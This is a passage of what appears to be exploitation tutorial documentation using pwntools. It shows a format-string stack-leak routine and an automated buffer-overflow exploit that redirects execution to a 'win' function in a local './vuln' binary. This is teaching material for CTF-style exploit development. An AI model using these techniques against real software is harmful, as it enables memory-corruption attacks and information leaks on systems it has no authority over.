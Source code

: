 ```python
        p.close()

offset = find_offset()

# Leak stack values
def leak_stack(offset, count=10):
    payload = ""
    for i in range(count):
        payload += f"%{offset + i}$lx "
    
    p.sendline(payload.encode())
    response = p.recvline().decode()
    values = response.split()
    
    for i, val in enumerate(values):
        try:
            addr = int(val, 16)
            print(f"Stack[{offset + i}]: 0x{addr:016x}")
        except ValueError:
            continue

leak_stack(offset)
```

## Advanced Features

### Automatic Exploitation

```python
from pwn import *

# Automatic buffer overflow detection
def auto_exploit():
    elf = ELF('./vuln')
    p = process('./vuln')
    
    # Create cyclic pattern
    pattern = cyclic(200)
    p.sendline(pattern)
    
    # Wait for crash
    p.wait()
    
    # Get core dump info
    core = Coredump('./core')
    offset = cyclic_find(core.read(core.rsp, 4))
    
    print(f"Offset found: {offset}")
    
    # Build exploit
    payload = b'A' * offset
    payload += p64(elf.symbols['win'])
    
    # Test exploit
    p = process('./vuln')
    p.sendline(payload)
    p.interactive()
```
